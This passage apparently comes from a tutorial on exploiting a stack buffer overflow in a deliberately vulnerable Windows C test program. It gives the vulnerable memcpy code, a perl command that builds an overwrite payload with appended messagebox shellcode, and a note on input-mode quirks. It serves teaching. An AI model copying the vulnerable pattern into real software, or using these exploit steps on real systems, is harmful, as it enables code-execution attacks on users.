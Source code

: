 [sourcecode language="c"]
#include &lt;string.h&gt;
#include &lt;stdio.h&gt;

__declspec(noinline) void overflow(char *str, int size) {
	char little_array[4];
	memcpy(little_array,str,size);
	printf(&quot;%s&quot;, little_array);
}

int main(int argc, char **argv) {
	char str[256];
	fgets(str, sizeof(str), stdin);
	
	int length = 0;
	for (; length&lt;sizeof(str)-1; length++) {
		if (str[length]=='\n') break;
	}
	str[length]=0;

	overflow(str, length+1);
}
[/sourcecode]

This new code just reads data in from stdin, and then there is a little length calculation that you can ignore (as long as your input does not have a '\n' (0x0a) character).

Now, because we will have a null in our input, we need to change how we create the input.  In cygwin do:
<pre>
perl -e 'printf("AAAABBBB\x40\xfe\x18\x00")' > file.txt
cat w32-msgbox-shellcode-esp.bin >> file.txt
</pre>

Now to try to exploit your app, run this from a dos command prompt:
<pre>
type file.txt | test.exe
</pre>
(<code>type</code> is the DOS equivalent of <code>cat</code>)

So you try running it, and it doesn't work, and you debug it and it looks like your shellcode isn't getting read all the way.  The reason why is the 0x1a character in the shellcode breaks the input.  This has nothing to do with the 0x0a restriction from the length calculation.  So you need to change your code again so it will call <code>_setmode</code>.
[sourcecode language="c"]
#include &lt;string.h&gt;
#include &lt;stdio.h&gt;
#include &lt;io.h&gt;
#include &lt;fcntl.h&gt;

__declspec(noinline) void overflow(char *str, int size) {
	char little_array[4];
	memcpy(little_array,str,size);
	printf(&quot;%s&quot;, little_array);
}
